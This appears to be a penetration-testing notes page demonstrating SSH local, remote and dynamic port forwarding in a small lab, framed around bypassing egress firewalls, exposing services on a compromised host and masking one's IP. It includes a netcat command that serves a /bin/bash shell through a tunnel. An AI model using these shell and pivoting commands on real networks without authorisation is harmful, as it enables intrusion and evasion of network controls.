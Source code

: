 # SSH Tunnelling / Port Forwarding

## SSH: Local Port Forwarding

If you are on the network that restricts you from establishing certain connections to the outside world, local port forwarding allows you to bypass this limitation.   
  
For example, if you have a host that you want to access but the egress firewall won't allow this, the below will help:

```csharp
ssh -L 127.0.0.1:8080:REMOTE_HOST:PORT user@SSH_SERVER
```

All the traffic will flow through the SSH\_SERVER \(like a proxy\) which DOES have access to the host you want to access. Let's see an example.

#### On machine 10.0.0.5

The below reads: bind on a local port 9999 \(on a host 10.0.0.5\). Listen for any traffic coming to that port 9999 \(i.e 127.0.0.1:9999\) and forward all that traffic to the port 4444 on host 10.0.0.12:

```csharp
ssh -L9999:10.0.0.12:4444 root@10.0.0.12 -N -f
```

We can see that the 127.0.0.1:9999 is now indeed listening:

![](../.gitbook/assets/ssh-local-bind.png)

#### On machine 10.0.0.12

Machine 10.0.0.12 is listening on port 4444 - it is ready to give a reverse shell to whoever joins

![](../.gitbook/assets/ssh-local-port-1.png)

#### On machine 10.0.0.5

Since the machine is listening on 127.0.0.1:9999, let's netcat it - this should give us a reverse shell from 10.0.0.12:4444:

![](../.gitbook/assets/ssh-local-port-2.png)

The above indeed shows that we got a reverse shell from 10.0.0.12.

## SSH: Remote Port Forwarding

Remote port forwarding helps in situations when you have compromised a box which has a service running on a port bound to 127.0.0.1, but you want to access that service from outside. In other words - it exposes an otherwise obscured port to the host on the other end of the tunnel.

Pseudo syntax for creating remote port forwarding with ssh tunnels is:

```csharp
ssh -R 5555:LOCAL_HOST:3389 user@SSH_SERVER
```

The above suggests that any port sent to port 5555 on SSH\_SERVER will be forwarded to the port 3389 on the LOCAL\_HOST - the host with an obsucure service.

#### On machine 10.0.0.12

Let's create a reverse shell listener bound to 127.0.0.1 \(not reachable to hosts from outside\) on port 4444:

```csharp
nc -lp 4444 -s 127.0.0.1 -e /bin/bash & ss -lt
```

![](../.gitbook/assets/ssh-remote-hidden.png)

Now, let's open a tunnel to 10.0.0.5 and create remote port forwarding by exposing the port 4444 for the host 10.0.0.5:

```text
ssh -R5555:localhost:4444 root@10.0.0.5 -fN
```

The above says: bind a port 5555 on 10.0.0.5 and make sure that any traffic sent to port 5555 on 10.0.0.5, please send it over to port 4444 on to this box \(10.0.0.12\).

#### On machine 10.0.0.5

Indeed, we can see a port 5555 got opened up on 10.0.0.5 as part of the tunnel creation:

![](../.gitbook/assets/ssh-remote-exposed.png)

Let's try sending some traffic to 127.0.0.1:5555 - this should give us a reverse shell from the 10.0.0.12:4444 - which it did:

![](../.gitbook/assets/ssh-remote-shell.png)

## SSH: Dynamic Port Forwarding

Pseudo syntax for creating dynamic port forwarding with ssh tunnels is:

```csharp
ssh -D 127.0.0.1:8080 user@SSH_SERVER
```

Which essentially means: bind port 8080 on localhost and any traffic that gets sent to this port, please relay it to the SSH\_SERVER - I trust it to make the connections for me. Once it gets a response, please send that data back.

For the demo, let's check what is our current IP before the ssh tunnel is set up:

![](../.gitbook/assets/ssh-dynamic-port-forwarding-myip1.png)

Creating an ssh tunnel to 159.65.200.10 and binding port 9090 on the local machine 10.0.0.5:

```csharp
ssh -D9090 root@159.65.200.10
```

![](../.gitbook/assets/ssh-dynamic-port-forwarding-create-tunel.png)

Checking network connections on the localhost 10.0.0.5, we can see that the port 9090 is now exposed and listening:

![](../.gitbook/assets/ssh-dynamic-port-forwarding-port-listening.png)

This means that if we send any traffic to 127.0.0.1:9090, that traffic will be sent to the hosts on the other end of the ssh tunnel - 159.65.200.10 and then the host 159.65.200.10 will make connections on behalf of the host 10.0.0.5 and return any data it receives back to our originating host at 10.0.0.5.

To test this, we can set our browser to use a socks5 proxy server 127.0.0.1:9090 like so:

![](../.gitbook/assets/ssh-dynamic-port-forwarding-configure-browser.png)

If we check what our IP is again, it is obvious that we are now indeed masquerading the internet as 159.65.200.10:

![](../.gitbook/assets/ssh-dynamic-port-forwarding-myip2.png)

{% hint style="info" %}
Dynamic port forwarding plays along nicely with ProxyChains.
{% endhint %}

{% embed data="{\"url\":\"https://blog.trackets.com/2014/05/17/ssh-tunnel-local-and-remote-port-forwarding-explained-with-examples.html\",\"type\":\"link\",\"title\":\"SSH Tunnel - Local and Remote Port Forwarding Explained With Examples -  Trackets Blog\",\"icon\":{\"type\":\"icon\",\"url\":\"https://blog.trackets.com/images/favicon.ico\",\"aspectRatio\":0}}" %}

